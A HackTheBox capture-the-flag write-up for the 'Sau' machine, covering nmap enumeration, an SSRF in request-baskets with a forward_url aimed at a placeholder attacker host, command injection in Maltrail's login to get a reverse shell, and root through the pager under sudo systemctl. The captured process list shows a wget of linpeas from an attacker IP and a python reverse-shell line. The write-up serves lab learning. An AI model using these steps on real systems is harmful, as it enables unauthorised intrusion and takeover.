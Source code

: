 ```yaml
---
title:  "HackTheBox WriteUp - Sau"
date:   2023-12-29
categories: Cybersecurity Hack-The-Box
---
```

![card](/assets/images/sau/Sau.png)
## Enumeration
Scanning sau.htb showed two open ports, 22 and 55555 and two filtered ports 80 and 8338. Receiving a filtered response indicates, that the requests actively got rejected.
```
# Nmap 7.94 scan initiated Sun Dec 24 15:58:57 2023 as: /snap/nmap/3152/usr/bin/nmap -sV -sC -p1-65535 -o nmap.scan 10.10.11.224
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.022s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 24 Dec 2023 14:59:41 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 24 Dec 2023 14:59:15 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 24 Dec 2023 14:59:15 GMT
|_    Content-Length: 0
```
On Port 80 a website is hosted running request-basket version 1.2.1, which is a service to collect arbitrary HTTP requests and inspect them. Researching the version online, showed that this version is vulnerable to [server side request forgery][SSRF].

This can be proven by creating a new basket with a POST request to `http://sau.htb:55555/api/baskets/<name>` using the following options. 
```
{
  "forward_url": "http://<attacker-ip>:4444/",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```
If we now start a web server on the attacker and try to access the newly created basket on `http://sau.htb:55555/<name>` we see the content from our webserver, which received the forwarded request from request-basket.

![PoC](/assets/images/sau/image-1.png)

This information may now be used to access websites, which may only be accessible from the host itself. Since there were two filtered ports, I tried to create a new forwarding basket for both of them. Port 8338 hosted a tool called Maltrail version 0.53 and Port 80 just seemed to be a proxy to port 8338. 

## Initial Foothold
Some research showed, that this version of Mailtrail is vulnerable to [remote code execution][MALTRAIL] through an unsanitized parameter `username` in the login page.

By injecting a semicolon character, shell commands may be executed. Through this vulnerability a reverse shell was injected into the host, encoded in base64.

![revshell](/assets/images/sau/image-2.png)

The user puma had the user flag.

```
$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation
Running `sudo -l` showed that the logan user is allowed to run systemctl using sudo. 
```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

The systemctl CLI uses less as a pager, which allows execution of commands and does not drop root permissions immediately. Using this it was possible to open a shell as root.

```
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2023-12-29 11:06:40 UTC; 25min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 302.9M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 1104 wget http://10.10.14.8/linpeas.sh
             ├─ 1106 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed >
             ├─ 1107 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed >
             ├─ 1110 sh
             ├─ 1111 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1112 /bin/sh
             ├─ 8612 gpg-agent --homedir /home/puma/.gnupg --use-standard-socke>
             ├─16135 sudo /usr/bin/systemctl status trail.service
             ├─16136 /usr/bin/systemctl status trail.service
             └─16137 pager

Dec 29 11:26:13 sau sudo[8309]:     puma : TTY=pts/1 ; PWD=/tmp ; USER=root ; C>
Dec 29 11:26:13 sau nologin[8349]: Attempted login by UNKNOWN (UID: 1001) on UN>
lines 1-23
!sh
# whoami
whoami
root
```

```
# cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```



## Reflection
In the beginning I struggled with accessing the filtered ports over the SSRF vulnerability, because I didn't see the parameter `proxy_response`, which needs to be set to `true` for the basket to actually forward the response from the target web server.After being able to access the filtered ports, the rest was pretty straightforward.

[SSRF]: https://notes.sjtu.edu.cn/s/MUUhEymt7#
[MALTRAIL]: https://github.com/spookier/Maltrail-v0.53-Exploit
